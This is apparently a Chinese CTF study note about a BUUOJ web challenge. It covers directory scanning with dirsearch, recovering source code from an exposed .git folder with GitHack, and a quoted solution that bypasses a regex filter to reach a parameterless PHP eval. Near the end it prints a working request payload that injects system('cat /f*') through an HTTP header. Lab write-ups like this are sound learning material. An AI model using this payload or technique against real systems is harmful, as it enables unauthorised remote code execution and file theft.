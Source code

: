 就用dirsearch吧

![image-20240225225458587](../typora-user-images/image-20240225225458587.png)

![image-20240225225534813](../typora-user-images/image-20240225225534813.png)

扫出来一些东西

吐槽   为什么扫出来东西最后不给个总结啊，还得往上翻翻看扫出来什么了

当然 可能是我不会用，应该还要加一些参数来指定我们需要什么结果么？



这个.git在网页访问会说被禁止访问

我们需要GitHack工具来获取源码

![image-20240225230328157](../typora-user-images/image-20240225230328157.png)

可以看到有3个文件

index.php没什么就是进入的页面

start.sh更没啥吧

那个长不拉几的文件可以看看

![image-20240225230532778](../typora-user-images/image-20240225230532778.png)

看不懂

题解如是说

第一个正则对提交的参数进行处理：任意字符加上可选的括号（允许嵌套）更换为空，然后判断是否等于分号，结合下面的 eval 可以知道就是无参数命令执行。

第二个正则过滤了一些常用的用于无参数命令执行的 php 方法，但过滤不全，可以使用类似功能的方法进行绕过，最终命令执行。

payload（使用 bp 发送的请求）：

> GET /bo0g1pop.php?star=eval(pos(array_reverse(getallheaders()))); HTTP/1.1
>
> Host: faf83665-1a88-473a-b765-ddd33c6cf370.node4.buuoj.cn:81
>
> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
>
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
>
> Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
>
> Accept-Encoding: gzip, deflate
>
> Connection: close
>
> X-Forwarder-Proto: system('cat /f*');
>
> Upgrade-Insecure-Requests: 1

更加懵懂了
